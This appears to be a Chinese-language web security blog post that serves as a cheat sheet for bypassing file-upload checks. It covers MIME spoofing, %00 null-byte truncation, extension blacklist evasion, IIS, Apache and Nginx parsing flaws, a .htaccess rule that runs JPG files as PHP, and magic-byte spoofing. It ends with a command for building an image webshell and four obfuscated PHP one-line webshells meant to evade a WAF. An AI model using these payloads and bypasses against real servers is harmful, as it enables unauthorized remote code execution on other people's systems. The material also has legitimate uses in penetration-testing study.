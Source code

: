 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```


##  客户端检测绕过
   通过前端js脚本对上传进行限制，通过设置禁止浏览器js脚本运行或者通过 burp 之类的代理工具进行绕过提交 .
在burp中将图片后缀名改为asp后，在服务器中就会以asp格式存储  
![](https://ljjbloghub.github.io/img/上传1.png)
##  服务器端检测绕过
### 文件类型(mime)检测 
可以使用burpsuite ，repeater模块修改content-Type：为image/png绕过验证.   

### 目录路径检测 
burp抓包如果能看见上传文件路径，可以使用空字符截断目录路径来绕过   
1.	get方法传送文件路径，利用%00截断   
![](https://ljjbloghub.github.io/img/上传2.png)
那么你上传一个jpg图片后就会存为以下格式，空格后的内容会被截断  
![](https://ljjbloghub.github.io/img/上传3.png)
2.若是post方法传送路径，需要在hex中修改二进制将空格20改为00，这样服务器端保留的文件为11.php（.php%00.jpg)   
### 后缀名检测  
基于黑名单的绕过：  
1、php可以执行的后缀名.php2，3，4，5  
2、test.asp%00.jpg   test.php(0x00).jpg的方式进行截断   
3、找黑名单扩展名的漏网之鱼，比如上传.asa\.cer\.cdx\.asax这四种文件格式也会被当着asp脚本来解析）  
4、可能存在大小写绕过漏洞，比如 aSp 和 pHp 之类,若没有去空处理可以加个空格绕过。   
5、利用windows和Linux系统的特性进行特殊文件名绕过，a.asp. a.asp_（test.php:.jpg test.php::$DATA ）这种命名方式在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改 ，然后绕过验证后，会被 windows 系统自动去掉后面的点和空格。   

白名单绕过：  
1、截断攻击   
2、利用解析漏洞  
3、特别文件名构造  


### 解析攻击（利用web应用服务器的漏洞上传可执行脚本）  

若.Htaccess格式允许上传，上传htaccess文件，能够让jpg以php格式运行  
	内容为 AddType application/x-httpd-php .jpg  
   
iis6.0解析漏洞:  
1、创建目录包含.asp那么此文件夹内的文件都会以asp运行。  
![](https://ljjbloghub.github.io/img/上传4.png)  
2、运行目录解析 将/视为截断（/xx.asp/xx.jpg）.     
3、只要文件名中含有 ".asp;" 会优先按 asp 来解析  
 例： xxx.asp;.jpg以这个后缀上传图片马,就会以asp解析  
     
IIS7.0/7.5 解析漏洞:  
  对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL 后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析   
     
Apache解析漏洞（双扩展名解析绕过)    
  1、 Apache 是从右到左开始判断解析，后缀名改为 a.php.7z 如果服务器没有设置对7z后缀以什么格式解析的话那么会自动变为php  
  2、 如果在 Apache 的 conf 里有这样一行配置AddHandler php5-script .php。这时只要文件名里包含 .php，即使文件名是 test2.php.jpg 也会以 php 来执行   

Nginx 解析漏洞（php自身的漏洞） 
    1、一个是对任意文件名，在后面添加 /任意文件名.php的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。   
    2、还有一种是对低版本的 Nginx 可以在任意文件名后面添加 %00.php 进行解析攻击。   

### 文件内容检测  
制作图片木马可以绕过或者在木马内容基础上再加了一些文件信息  
1.文件幻数检测:  
	![](https://ljjbloghub.github.io/img/上传5.png)
2.文件相关信息检测绕过:    
根据类型在文件头部添加以下文本    
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”  
（2） .gif，”GIF 89A”  
（3） .zip，”Zip Compressed”  
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile” 

3.文件加载检测绕过：  
 在图片注释处("")添加php代码   
     ![](https://ljjbloghub.github.io/img/上传6.png)
Windows环境下图片马制作方法：  
    copy normal.jpg /b + shell.php /a webshell.jpg

PS:图片马上传后需要配合解析漏洞或者本地文件包含漏洞才能以脚本语言解析。  

### 文件上传一句话php马绕过waf
（适用于php版本7.0以下）
1.  

          <?php $_GET[“test1"]($_GET[“test2"]); ?>  
          
2.  

        $str="a=assert";  
        parse_str($str);//执行这个函数后，生成一个变量$a，值为字符串”assert"
        

3. 

        <?php 
          function fun() 
          {return $_POST['a'];} 
          @preg_replace("/test/e",fun(),"test test test"); 
        ?>   
    
4.

    <?php 
    $b='tressa'; 
    $c=strrev($b); 

    $c($_POST[key]); 
    ?> 

文件上传思维导图：
![](https://ljjbloghub.github.io/img/上传7.png)
